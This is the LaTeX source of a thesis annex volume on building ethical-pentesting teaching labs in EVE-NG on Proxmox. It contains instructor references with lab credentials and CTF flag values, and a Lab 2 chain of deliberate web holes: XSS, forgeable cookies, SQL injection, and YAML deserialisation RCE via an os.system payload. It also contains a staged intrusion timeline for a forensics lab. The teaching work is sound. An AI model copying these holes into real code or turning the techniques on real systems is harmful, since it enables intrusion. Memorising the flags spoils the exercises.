\documentclass[a4paper, twoside, 12pt, openright]{report}

\usepackage{fontspec}
\usepackage{verbatim}
\usepackage{graphicx}
\usepackage{float}
\usepackage[english]{babel}
\usepackage{csquotes}
\usepackage{eurosym}
\usepackage{fancyhdr}
\usepackage{etoolbox}
\usepackage{geometry}
\usepackage{setspace}
\usepackage{titlesec}
\usepackage[nottoc, numbib]{tocbibind}
\usepackage{array}
\usepackage{tabularx}
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{calc}
\usepackage{listings}
\lstset{
    basicstyle=\ttfamily\small,
    breaklines=true,
    breakatwhitespace=false,
    breakindent=0pt,
    postbreak=\mbox{\textcolor{gray}{$\hookrightarrow$}\space},
    frame=single,
    numbers=none,
    showstringspaces=false,
    columns=fullflexible,
    keepspaces=true,
}
\usepackage{amssymb}
\usepackage{xurl}
\usepackage{pdfpages}
\usepackage{hyperref}
\tolerance=2000
\emergencystretch=3em

\setmainfont{OpenDyslexic}[
    Path = /usr/share/fonts/opentype/opendyslexic/,
    Extension = .otf,
    UprightFont = *-Regular,
    BoldFont = *-Bold,
    ItalicFont = *-Italic,
    BoldItalicFont = *-BoldItalic
]
\setsansfont{OpenDyslexicAlta}[
    Path = /usr/share/fonts/opentype/opendyslexic/,
    Extension = .otf,
    UprightFont = *-Regular,
    BoldFont = *-Bold,
    ItalicFont = *-Italic,
    BoldItalicFont = *-BoldItalic
]
\setmonofont{OpenDyslexicMono}[
    Path = /usr/share/fonts/opentype/opendyslexic/,
    Extension = .otf,
    UprightFont = *-Regular
]

\titleformat{\chapter}[block]{\normalfont\fontsize{18pt}{0pt}\bfseries}{\thechapter}{1em}{}
\titlespacing*{\chapter}{0pt}{0pt}{\baselineskip}
\titleformat{\section}[block]{\normalfont\fontsize{16pt}{0pt}\bfseries}{\thesection}{1em}{}
\titleformat{\subsection}[block]{\normalfont\fontsize{14pt}{0pt}\bfseries}{\thesubsection}{1em}{}

\hypersetup{
    colorlinks=true,
    linkcolor=black,
    citecolor=black,
    urlcolor=blue,
    pdftitle={Ethical Pentesting in Virtualized Environments with EVE-NG -- Technical Annexes},
    pdfauthor={Eloi Egea Rada},
}

\newfontfamily\eurofont{Latin Modern Roman}
\AtBeginDocument{\renewcommand{\euro}{{\eurofont \texteuro}}}
\geometry{top=3cm, bottom=2.54cm, left=2.54cm, right=2.54cm, bindingoffset=0.46cm}
\setlength{\headheight}{14.5pt}
\setlength{\parindent}{0pt}
\providecommand{\tightlist}{\setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\graphicspath{{../../images/}{../../web/docs/assets/images/labs/}{../../web/docs/assets/images/}}

\fancypagestyle{plain}{
    \fancyhf{}
    \fancyhead[RO,LE]{\fontsize{10}{12}\textit{\thepage}}
    \fancyhead[LO]{\fontsize{10}{12}\textit{\nouppercase{\textit{\leftmark}}}}
    \fancyhead[RE]{\fontsize{10}{12}\textit{Ethical Pentesting in Virtualized Environments with EVE-NG}}
    \fancyfoot{}
}
\pagestyle{plain}

\title{
    \fontsize{14pt}{0pt}\textbf{Bachelor in Computer Engineering -- Management and Information Systems} \\
    \vspace*{2cm}
    \textbf{Ethical Pentesting in Virtualized Environments with EVE-NG} \\
    \vspace*{1cm}
    \textbf{Technical Annexes} \\
    \textbf{Volume II --- Annexes}
    \vspace*{5cm}
}
\author{
    \fontsize{14pt}{0pt}
    \textbf{Eloi Egea Rada} \\
    \textbf{Supervisor: Pere Vidiella i Catalan}
}
\date{May 2026}

\begin{document}

\maketitle
\newpage
\thispagestyle{empty}
\null
\newpage

\pagenumbering{Roman}

% --- Disclaimer page ---
\thispagestyle{empty}
\null\vfill
\begin{flushright}
\begin{minipage}{0.72\textwidth}
{\normalfont\large\bfseries Note on this document}\\[0.8em]
{\itshape
This document is a LaTeX adaptation of the companion web documentation
published at \href{https://theegea.github.io/TFG}{theegea.github.io/TFG}.
The authoritative and fully interactive version --- including navigation,
search, and live code blocks --- is the web version.
\\[0.6em]
This PDF was generated automatically from the same source files
to provide an offline-readable snapshot. Content is identical;
only the presentation differs. Minor formatting differences may occur
--- when in doubt, refer to the web version.
}
\end{minipage}
\end{flushright}
\vfill\null\cleardoublepage

\tableofcontents
\cleardoublepage

\onehalfspacing
\setlength{\parskip}{12pt}
\pagenumbering{arabic}

\chapter{App A --- EVE-NG Installation on Proxmox VE}

\section{App A --- EVE-NG Installation on Proxmox VE}

This appendix documents the configuration used to deploy EVE-NG Community Edition on the Proxmox VE server used for this project. The procedure has been validated and the same steps can be used to reproduce the environment on any compatible Proxmox host. Screenshots and extended notes are available in the companion web documentation at docs/web/docs/guides/eve\_ng\_install\_proxmox/.

\subsection{Virtual Machine Requirements}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{Parameter}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Value used in this project}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Hypervisor & Proxmox VE 8.x \\
CPU type & \texttt{host} (required for nested virtualisation) \\
vCPU cores & 16 (minimum 8) \\
RAM & 32\,GB per EVE-NG instance (host upgraded to 64\,GB total) \\
Disk & 100\,GB VirtIO, SSD-backed Proxmox pool \\
SCSI controller & VirtIO SCSI \\
Network & VirtIO, bridged on \texttt{vmbr0} (management); \texttt{pnet0}--\texttt{pnetN} as cloud bridges \\
BIOS & SeaBIOS (default; OVMF also works) \\
\end{longtable}}

\subsection{Installation Steps}

\begin{itemize}
\tightlist
\item
  Download the EVE-NG Community Edition ISO from the official website.

  \begin{itemize}
  \tightlist
  \item
    In Proxmox, create a new VM with the parameters in Table . Ensure the CPU type is set to \texttt{host} so that virtualisation extensions (VT-x / AMD-V) are exposed to the guest.
  \item
    Boot from the ISO and follow the Ubuntu Server installation wizard. Assign a static IP address and install the OpenSSH server during setup.
  \item
    After the first reboot, follow the EVE-NG Community post-install wizard (\texttt{/opt/unetlab/wrappers/unl\_wrapper\ -a\ postinstall}) and configure the management interface.
  \item
    Run \texttt{apt\ update\ \&\&\ apt\ upgrade\ -y} and reboot once more to ensure all EVE-NG patches are applied.
  \item
    Access the web interface at \texttt{https://\textless{}EVE-NG-IP\textgreater{}/} and change the default credentials immediately.
  \end{itemize}
\end{itemize}

\subsection{Proxmox Network Configuration}

Two bridge types are used:

\begin{itemize}
\tightlist
\item
  \textbf{\texttt{vmbr0}}\ (bridged) --- management access from the LAN; also used as \texttt{pnet0} inside EVE-NG for labs that require connectivity to the homelab network (e.g., Lab 1).

  \begin{itemize}
  \tightlist
  \item
    \textbf{\texttt{vmbr1}}\ (NAT) --- optional internet-facing bridge to keep lab traffic isolated from the LAN while allowing outbound connectivity.
  \end{itemize}
\end{itemize}

\subsection{Post-Install Checklist}

\begin{itemize}
\tightlist
\item
  [$\checkmark$] CPU type set to \texttt{host} in Proxmox VM options.

  \begin{itemize}
  \tightlist
  \item
    [$\checkmark$] VM autostart enabled in Proxmox.
  \item
    [$\checkmark$] Snapshot taken after successful EVE-NG installation.
  \item
    [$\checkmark$] Default admin password changed.
  \item
    [$\checkmark$] OS Client Side installed on instructor workstation (HTML5 console option does not require it).
  \item
    [$\checkmark$] Image directories created under /opt/unetlab/addons/qemu/ and permissions fixed with \texttt{unl\_wrapper\ -a\ fixpermissions}.
  \end{itemize}
\end{itemize}

\cleardoublepage
\chapter{App B --- Lab 1: PEBCAK Corp Instructor Reference}

\section{App B --- Lab 1: PEBCAK Corp Instructor Reference}

This appendix provides the deployment reference for Lab 1 (Reconnaissance and Enumeration). It is intended for instructors and system administrators responsible for setting up and resetting the lab environment. The student-facing guide and interactive walkthrough are available at docs/web/docs/labs/lab1/.

\subsection{Credentials and Access}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\textbf{Node} & \textbf{Username} & \textbf{Password} & \textbf{Access method} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense & admin & pfsense & Web UI / SSH \\
VyOS & vyos & vyos & EVE-NG console \\
Server (PEBCAK) & blackmesa & \texttt{!Bl4kM3s} & SSH (via pfSense DNAT) \\
PC1 & ubuntu & ubuntu & EVE-NG console / VNC \\
Parrot OS & parrot & parrot & EVE-NG console / VNC \\
\end{longtable}}

\subsection{Network Segments}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{Segment}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Subnet}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Gateway}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Purpose}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Homelab / WAN & 192.168.0.0/24 & 192.168.0.1 & Parrot attacker + pfSense WAN \\
Net-Link & 172.16.0.0/30 & pfSense vtnet0 & pfSense VyOS uplink \\
Users LAN & 192.168.10.0/24 & 192.168.10.x & PC1 internal workstation \\
Servers LAN & 192.168.20.0/24 & 192.168.20.1 & PEBCAK Corp server segment \\
\end{longtable}}

\subsection{Lab Startup Checklist}

\begin{itemize}
\tightlist
\item
  Start all nodes from the EVE-NG web interface in order: pfSense VyOS Server PC1 Parrot.

  \begin{itemize}
  \tightlist
  \item
    Run the bridge script on the EVE-NG host (lost on reboot; persistent via \texttt{udev} rule):
  \end{itemize}
\item
  Verify DNS resolution from Parrot: the DNS server on Parrot must point to pfSense's WAN IP so that \texttt{lab1} resolves.
\item
  Confirm flag is in place on the Server node:
\end{itemize}

\subsection{Expected Student Workflow}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{Step}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Action}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Tool}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
1 & Navigate to \path{http://lab1} in Parrot browser & Firefox \\
2 & Inspect page source; find HTML comment: \texttt{\textless{}!\,-\textbackslash{}!-\ sometimes\ simplify\ and\ search\ -\textbackslash{}!-\textgreater{}} & Browser devtools \\
3 & Access \path{http://lab1/pebcak.html}; read SSH credentials & Browser \\
4 & \texttt{ssh\ blackmesa@lab1} (pfSense DNAT forwards TCP 22) & SSH \\
5 & \path{cat  /flag.txt} --- retrieves Flag 1 and pfSense credentials & Terminal \\
6 & SSH to pfSense from Server: \texttt{ssh\ admin@172.16.x.x} & SSH (optional) \\
\end{longtable}}

\subsection{Flags}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.12\linewidth}
  >{\raggedright\arraybackslash}p{0.47\linewidth}
  >{\raggedright\arraybackslash}p{0.29\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{Flag}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Value}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Location}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Flag 1 & \path{FLAGp3bc4k_s3rv3r_0wn3d} & \path{/home/blackmesa/flag.txt} on Server \\
Flag 2 & \path{FLAGpebcak_firewall_pivot} & pfSense admin panel (optional bonus) \\
\end{longtable}}

\cleardoublepage
\chapter{App C --- Lab 2: SYNAPSE Portal Instructor Reference}

\section{App C --- Lab 2: SYNAPSE Portal Instructor Reference}

This appendix provides the deployment reference for Lab 2 (Web Application Vulnerabilities). It is intended for instructors and administrators. The application source code, Docker Compose files, and interactive walkthrough are at docs/web/docs/labs/lab2/.

\subsection{Credentials and Access}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{System}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Username}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Password}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Role}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense-LAB2 & admin & pfsense & Firewall management \\
VyOS-LAB2 & vyos & vyos & Router console \\
Server-A OS & ubuntu & \texttt{S3rv3rA} & SSH access \\
Server-A Portal & admin & \texttt{Admin@Synapse2024} & Web application admin \\
Server-A Portal & guest & guest123 & Web application guest \\
Server-B OS & ubuntu & \texttt{S3rv3rB} & SSH access \\
Server-B DataVault & operator & \texttt{D4t4V4ult\#2024} & API access \\
Parrot-LAB2 & lab2 & L4b2 & Attacker node \\
\end{longtable}}

\subsection{Vulnerability Chain and Flag Locations}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.03\linewidth}
  >{\raggedright\arraybackslash}p{0.18\linewidth}
  >{\raggedright\arraybackslash}p{0.10\linewidth}
  >{\raggedright\arraybackslash}p{0.41\linewidth}
  >{\raggedright\arraybackslash}p{0.11\linewidth}@{}}
\toprule\noalign{}
\# & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{OWASP}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Vuln}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Implementation}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Flag}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
1 & A03:2021 & Stored XSS & \texttt{\textbar{}safe} filter in Jinja2 template; \path{/comments} endpoint & --- \\
2 & A07:2021 & Cookie theft & \texttt{HttpOnly=False}; victim bot (Playwright) auto-visits comments & --- \\
3 & A07:2021 & Broken auth & Cookie format \texttt{ID:ROLE:USERNAME}; unsigned; forgeable & --- \\
4 & A03:2021 & SQL injection & \path{/search?q=} uses string concatenation & FLAG 1 \\
5 & A01:2021 & Admin access & \path{/admin} panel reveals Server-B credentials & FLAG 2 \\
6 & A08:2021 & YAML deser. & Server-B \path{/preview} uses \texttt{yaml.UnsafeLoader} & --- \\
7 & A08:2021 & RCE & \path{!!python/object/apply:os.system} payload via POST & FLAG 3 \\
\end{longtable}}

\subsection{Lab Startup Procedure}

\begin{itemize}
\tightlist
\item
  After EVE-NG host reboot, restore bridge addresses:
\item
  Start the SYNAPSE Portal on Server-A:
\item
  Start the DataVault on Server-B:
\item
  Configure Parrot static IP and verify connectivity: \textbf{Note:} pfSense-LAB2 is installed in UEFI mode. If it fails to boot, use the start script: \path{/usr/local/bin/pfsense-lab2-start.sh}. Server-A uses \texttt{docker-compose} (v1, hyphen); Server-B uses \texttt{docker\ compose} (v2, space).
\end{itemize}

\cleardoublepage
\chapter{App D --- Lab 3: HELIX Systems Instructor Reference}

\section{App D --- Lab 3: HELIX Systems Instructor Reference}

This appendix provides the deployment and pre-staging reference for Lab 3 (Incident Response and Log Forensics). It documents all accounts, the pre-staged attack timeline, and the evidence artefacts that students are expected to find. The step-by-step investigation walkthrough is at docs/web/docs/labs/lab3/walkthrough/.

\subsection{Accounts}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{System}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Username}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Password}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Role}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense-LAB3 & admin & pfsense & Firewall management \\
VyOS-LAB3 & vyos & vyos & Router console \\
Server-Web & analyst & \texttt{An@lyst2024} & \textbf{Student entry account} \\
Server-Web & devops & \texttt{D3v0ps\#2023} & Compromised account (brute-forced) \\
Server-Web & maint & --- & Backdoor account (attacker-created) \\
Server-DB & analyst & \texttt{An@lyst2024} & Internal access \\
Server-DB & devops & \texttt{D3v0ps\#2023} & Compromised (password reuse) \\
Server-Web & ubuntu & \texttt{ubuntu} & Admin (direct SSH, teacher only) \\
Server-DB & ubuntu & \texttt{ubuntu} & Admin (direct SSH, teacher only) \\
\end{longtable}}

\subsection{Pre-Staged Attack Timeline}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.15\linewidth}
  >{\raggedright\arraybackslash}p{0.58\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{Time}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Host}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Event}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
03:05--03:16 & Server-Web & 25 failed SSH attempts for \texttt{devops} from \path{185.220.101.47} \\
03:17 & Server-Web & Successful SSH login as \texttt{devops} \\
03:18 & Server-Web & \path{sudo /usr/bin/find} --- privilege escalation to root via GTFOBins \\
03:19 & Server-Web & \texttt{useradd\ maint} + \path{/etc/sudoers.d/maint} --- backdoor + persistence \\
03:21 & Server-DB & SSH login as \texttt{devops} from \path{192.168.50.10} (lateral movement) \\
03:22 & Server-DB & Access to \texttt{clients.db}; \path{.exfil_marker} created \\
\end{longtable}}

\subsection{Evidence Artefact Locations}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.23\linewidth}
  >{\raggedright\arraybackslash}p{0.54\linewidth}
  >{\raggedright\arraybackslash}p{0.13\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{Artefact}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Path}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Host}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
SSH brute-force log & \path{/var/log/auth.log} & Server-Web \\
Privilege escalation & \path{/var/log/auth.log} (sudo entry) & Server-Web \\
Backdoor account & \path{/etc/passwd}, \path{/etc/sudoers.d/maint} & Server-Web \\
Sudoers misconfiguration & \path{/etc/sudoers.d/devops} & Server-Web \\
Bash history & \path{/home/devops/.bash_history} & Server-Web \\
Lateral movement log & \path{/var/log/auth.log} & Server-DB \\
Exfiltration marker & \path{/opt/helix/data/.exfil_marker} & Server-DB \\
Sensitive data & \path{/opt/helix/data/clients.db} & Server-DB \\
\end{longtable}}

\subsection{Lab Startup Checklist}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Start all nodes in order: \textbf{pfSense} $\rightarrow$ \textbf{VyOS} $\rightarrow$ \textbf{Server-Web} $\rightarrow$ \textbf{Server-DB}
\item
  Verify the EVE-NG host bridge interfaces are active (persistent via udev rule \texttt{99-lab3-bridges.rules}):

\begin{lstlisting}
ip addr show vnet0_2   # Should show 192.168.50.254/24
ip addr show vnet0_3   # Should show 192.168.60.254/24
\end{lstlisting}
\item
  If bridges are missing (e.g.~after EVE-NG host reboot), restore manually:

\begin{lstlisting}
ip addr add 192.168.50.254/24 dev vnet0_2
ip addr add 192.168.60.254/24 dev vnet0_3
\end{lstlisting}
\item
  Verify evidence artefacts via teacher accounts:

\begin{lstlisting}
# Server-Web
ssh ubuntu@192.168.50.10   # password: ubuntu
grep "185.220.101.47" /var/log/auth.log | wc -l  # expect 25+
grep "maint" /etc/passwd                          # expect maint entry
# Server-DB
ssh ubuntu@192.168.60.10   # password: ubuntu
ls /opt/helix/data/        # expect clients.db + .exfil_marker
\end{lstlisting}

  If Lab 1 is also deployed, \texttt{99-lab1-bridges.rules} and \texttt{99-lab3-bridges.rules} assign overlapping interface names (\path{vnet0_2}/\path{vnet0_3}). Do not run Lab 1 and Lab 3 simultaneously on the same EVE-NG host.
\end{enumerate}

\subsection{Student Entry Point}

Students connect via SSH to pfSense's WAN IP; pfSense DNAT forwards TCP 22 directly to Server-Web:

No offensive tools are required. Students use only standard Unix utilities: \texttt{grep}, \texttt{awk}, \texttt{less}, \texttt{cat}, \texttt{find}, \texttt{journalctl}.

\subsection{Lab Reset Procedure}

To restore the lab to its initial forensic state after a student session:

Alternatively, revert both Server-Web and Server-DB QCOW2 images from the pre-staged backup stored at /opt/unetlab/addons/qemu/lab3-backups/.

\cleardoublepage
\chapter{App E --- Cybersecurity Training Platform Descriptions}

\section{App E --- Cybersecurity Training Platform Descriptions}

This appendix provides detailed descriptions of the seven cybersecurity training platforms reviewed in Chapter 2 (State of the Art). Each section discusses the platform's pedagogical approach, deployment model, strengths, and limitations relevant to curriculum-aligned institutional deployment. A comparative summary is provided in the \href{../\#platform-comparison}{platform comparison table}.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{HackTheBox}

\href{https://www.hackthebox.com/}{HackTheBox} is one of the most widely recognised online platforms for penetration testing practice, offering a large library of intentionally vulnerable machines and Capture-the-Flag (CTF) challenges categorised by difficulty. The platform benefits from a strong community and industry recognition, making it a common supplementary resource for professional certifications such as OSCP and CEH.

However, its challenges are isolated: there is no network topology connecting systems, no formal curriculum mapping to specific degree programmes, and the platform cannot be deployed on institutional infrastructure. This limits customisation, assessment integration, and pedagogical control for academic use.

\textbf{Key limitation for this project}: external hosting, no curriculum alignment, isolated scenarios.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{TryHackMe}

\href{https://tryhackme.com/}{TryHackMe} adopts a gamified, beginner-friendly approach, combining structured learning paths with guided interactive labs accessible entirely from a browser. Its low barrier to entry and progressive structure make it effective for initial skill development, and it is widely used in introductory cybersecurity courses.

However, the platform is externally managed and subscription-dependent, scenarios are simplified to ensure completion within short timeframes, and it does not support local institutional deployment or integration with academic learning management systems.

\textbf{Key limitation for this project}: no local deployment, simplified scenarios, external dependency.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Cisco Networking Academy}

\href{https://www.netacad.com/}{Cisco Networking Academy} provides institution-backed curriculum aligned with professional certifications (CCNA, CyberOps) and uses Packet Tracer for network simulation. Its formal structure and vendor support are strengths for foundational networking education, and it is widely adopted in academic programmes globally.

However, the programme is primarily defensive and networking-oriented. Packet Tracer does not support full operating system simulation or security tool integration, and the curriculum is tightly coupled to Cisco technologies, creating vendor lock-in.

\textbf{Key limitation for this project}: vendor lock-in, no OS-level simulation, limited security scope.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{SEED Labs}

\href{https://seedsecuritylabs.org/}{SEED Labs} is an open-source, research-backed collection of Docker-based security exercises covering specific concepts such as buffer overflows, SQL injection, and cryptographic protocols. Developed at Syracuse University, it is one of the most academically rigorous freely available lab resources.

Its academic rigour and local deployability are significant advantages. Nevertheless, each lab is conceptually isolated --- there is no structured penetration testing workflow spanning multiple systems --- and significant instructor customisation is required to integrate SEED exercises into a complete curriculum.

\textbf{Key limitation for this project}: conceptually isolated labs, no multi-system topology, no automation.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Game of Active Directory (GOAD)}

\href{https://github.com/Orange-Cyberdefense/GOAD}{GOAD} provides an Infrastructure-as-Code vulnerable Active Directory environment designed for realistic Windows domain penetration testing. Its use of Terraform and Vagrant enables reproducible deployment and the scenarios reflect real corporate environments.

The platform is, however, narrowly focused on Windows AD: it does not cover reconnaissance, web application vulnerabilities, or network traffic analysis, and it lacks formal instructor resources or curriculum structure.

\textbf{Key limitation for this project}: Windows AD only, no curriculum structure, no instructor materials.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{VulnHub}

\href{https://www.vulnhub.com/}{VulnHub} is a community-driven repository of downloadable vulnerable virtual machines for local deployment. Its open, self-directed nature suits independent learners well, and the large variety of machines covers diverse difficulty levels and techniques.

However, the absence of structured progression, inconsistent quality across community-contributed machines, and lack of automation for deployment and reset make institutional integration impractical without significant instructor effort.

\textbf{Key limitation for this project}: no structure, inconsistent quality, no automation.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Hack4u Academy}

\href{https://hack4u.io/}{Hack4u Academy} stands out for its emphasis on penetration testing methodology over tool memorisation, offering structured video-based courses with integrated practical exercises. Its curriculum is well-designed and the community active, making it particularly effective for self-paced professional development.

The platform is, however, subscription-based and externally hosted, making local institutional deployment and automated large-scale assessment impossible.

\textbf{Key limitation for this project}: external hosting, subscription model, no institutional deployment.

\cleardoublepage
\chapter{App F --- Objectives, Deliverables, and KPIs}

\section{App F --- Objectives, Deliverables, and KPIs}

This appendix complements Chapter with the full deliverable specifications per specific objective, the detailed per-category KPI tables, and the extended audience analysis that frames the project's reuse potential.

\subsection{Deliverables by Specific Objective}

\subsubsection{OE1: Design and Implement EVE-NG Labs}

\begin{itemize}
\tightlist
\item
  4 \texttt{.unl} topology files (Lab 1: implemented; Labs 2--4: planned)
\item
  8--12 optimised virtual machine images
\item
  Technical configuration documentation for each lab
\end{itemize}

\subsubsection{OE2: Develop Automation Scripts}

\begin{itemize}
\tightlist
\item
  Bash/Python utility scripts for common tasks (e.g.~bridge configuration, ISO upload, node connectivity checks)
\item
  Scripts documented with usage instructions in the repository
\end{itemize}

\subsubsection{OE3: Develop Structured Teaching Material}

\begin{itemize}
\tightlist
\item
  Student lab guide PDF (student lab guide) per lab --- task description, objectives, hints, and tools reference
\item
  Instructor resolution guide PDF (instructor solution guide) per lab --- full walkthrough, flag values, rubric (100 pts), and common errors
\item
  Technical configuration reference per lab in the repository
\end{itemize}

\subsubsection{OE4: Validate Usability and Educational Effectiveness}

\begin{itemize}
\tightlist
\item
  Pilot session report with timing and usability observations
\item
  Post-session survey results (satisfaction, difficulty, clarity)
\item
  List of improvements implemented based on pilot feedback
\end{itemize}

\textbf{Pilot note}: The pilot group comprises 4--5 individuals from the GEISI student population, potentially including participants with documented learning difficulties (e.g.~dyslexia), to assess the effectiveness of the accessibility measures incorporated in the lab documentation.

\subsection{Detailed KPI Tables}

The following tables break down the consolidated KPIs from Table by category for reference.

\subsubsection{Technical Indicators}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
\textbf{Metric} & \textbf{Objective} & \textbf{Measurement Method} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Lab deployment time & ≤ 2 min & Automated timing \\
VM boot success rate & ≥ 95 & \\
Full reset time & ≤ 30 s & Scripts with timestamps \\
Scenario reproducibility & 100\% & \\
\end{longtable}}

\subsubsection{Educational Indicators}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{Metric}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Objective}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Measurement Method}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Lab resolution time & 90--120 min & Time tracking during pilot \\
Lab completion (pilot) & All participants & Observation during pilot sessions \\
User satisfaction & ≥ 4/5 & Post-use survey \\
Key concept understanding & ≥ 80\% & \\
\end{longtable}}

\subsubsection{Quality Indicators}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
\textbf{Metric} & \textbf{Objective} & \textbf{Measurement Method} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Documentation coverage & 100 & \\
Critical errors & 0 & Exhaustive testing \\
EVE-NG version compatibility & 100 & \\
Interface usability & ≥ 4/5 & UX heuristic evaluation \\
\end{longtable}}

\subsection{Extended Audience Analysis}

\subsubsection{Secondary End Users}

\begin{itemize}
\tightlist
\item
  \textbf{Cybersecurity Faculty}: Other teachers interested in reusing the material for related courses
\item
  \textbf{Postgraduate Students}: Possible extensions of the material for advanced levels
\end{itemize}

\subsubsection{Potential Audience Beyond Tecnocampus}

\paragraph{Internal Scope (Tecnocampus)}

